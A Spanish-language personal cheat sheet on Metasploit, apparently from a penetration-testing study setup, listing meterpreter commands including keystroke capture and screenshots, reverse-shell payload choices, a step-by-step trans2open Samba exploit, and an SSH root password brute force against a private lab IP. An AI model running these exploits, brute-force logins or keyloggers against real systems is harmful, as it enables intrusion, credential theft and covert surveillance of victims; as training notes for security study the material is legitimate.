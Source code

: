 ## Metasploit ❮❯

Tags: #Comandos #Metasploit #Payloads #Msfvenom

Sintax: 
	RHOSTS = Remote Host (The target IP)
	LHOST = Local host (Our IP)

* Para verificar la DB del Metasploit y despues entrar (Cuando se ejecuta por primera vez)
```bash 
❯ msfdb run
```

* Ejecutar Metasploit
```bash 
❯ msfconsole -q         # q = Quitar el banner de inicio
```

* Comandos de Metasploit dentro de la maquina victima 
```bash 
❯ help                  # Miramos el panel de ayuda
❯ shell                 # Nos regresa una Shell para interactuar mejor 
❯ screenshot            # Captura de pantalla del esquipo
❯ keyscan_start         # Sniffer de pulsaciones del teclado
❯ keyscan_dump          # Nos muestra lo que capturo por el teclado con el comando anterior
❯ background            # Ponemos la sesion en segundo plano 
❯ sessions              # Miramos las sesiones activas en segundo plano 
```

- **msfconsole -q** Iniciamos metasploit (q=no cargue el banner)
**❯ search ❮exploit❯** Buscamos el exploit
		* Modulos: 'Auxiliary, Exploits, Post, Payload'
		* Tipo de Accion: 'Dos, Fuzzers, Scanner, Gather'
**❯ use ❮Number or path❯** Colocamos el numero del exploit que vamos a usar
**❯ options** Miramos las opciones del exploit y lo que debemos de configurar
**❯ set LHOST IP_addres** Configuramos el IP local (Si estamos en una VPN colocar el Tun0)
**❯ set RHOSTS IP_addres** Configuramos el IP remoto (maquina victima)
**❯ set RPORT** **#Puerto** Configuramos el puerto remoto (maquina victima)
**❯ set LPORT** **#Puerto** Configuramos el puerto local
**❯ show targets** Miras los targets disponibles (Diferentes versiones de Windows)
**❯ set target** **numero** Seleccionamos el numero de target a usar
**❯ show payloads** Miramos los payload disponibles


**Payloads**
Non-Stage -> Sends exploit shellcode all at once. Larger in size ando won't always work -> **windows/meterpreter_reverse_tcp**
Staged -> Sends payload in stages. Can be less stable -> **windows/meterpreter/reverse_tcp**

En este caso utilizaremos Metasploit para poder entrar por Samba 2.2
❯ **msfconsole** 
	❯ **search trans2open**
	❯ **use 1**
	❯ **options**
	❯ **set RHOST 192.168.68.112**
	❯ **run o exploit**
Miramos en options que esta ejecutado un **staged payload** ya que tenemos un **linux/x86/meterpreter/reverse_tcp**
Si no funciona podriamos hacer lo siguiente y buscaremos un **Non-staged payload**
❯ **set payload linux/x86/** Antes de completar el payload, podemos darle doble TAB para ver las opciones y los demas Payloads
❯ **set payload linux/x86/shell_reverse_tcp** 
❯ **options** 
❯ **run** Ejecutamos  


Tambien podemos usar Metasploit para explotar el SSH
❯ **msfconsole** 
	❯ **search ssh**
	❯ **use 17** Usaremos el que dice SSH_login
	❯ **options**
	❯ **set username root** Colocaremos el usuario de root
	❯ **set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt** Colocamos la ruta del diccionario 
	❯ **set rhosts 192.168.68.112** Colocamos la IP del target
	❯ **set threads 10** Para que vaya mas rapido al momento de mandar las solicitudes
	❯ **run** Ejecutamos el exploit


- **msfconsole** Para iniciar metaesploit para escanear **SMB**
	❯ **search smb** En este caso buscaremos exploits de SMB, podemos encontrar:
		* Modulos: 'Auxiliary, Exploits, Post, Payload'
		* Tipo de Accion: 'Dos, Fuzzers, Scanner, Gather'
	❯ **use <module#>** Para usar el modulo, lo podremos hacer con la ruta o con el numero 
	❯ **info** Mirar la informacion del modulo
	❯ **options** Para ver las opciones del modulo y ver que necesitamos colocar para que funcione correctamente
	❯ **set RHOSTS <IP.Address>** Colocamos la IP target en el modulo
	❯ **run** Para ejecutar el exploit

Lista de exploits:
-   **samba 3.0.20** Para smb de los puertos 445/139

**❯ shell** Dentro del exploit con shell nos podemos conseguir una consola interactiva

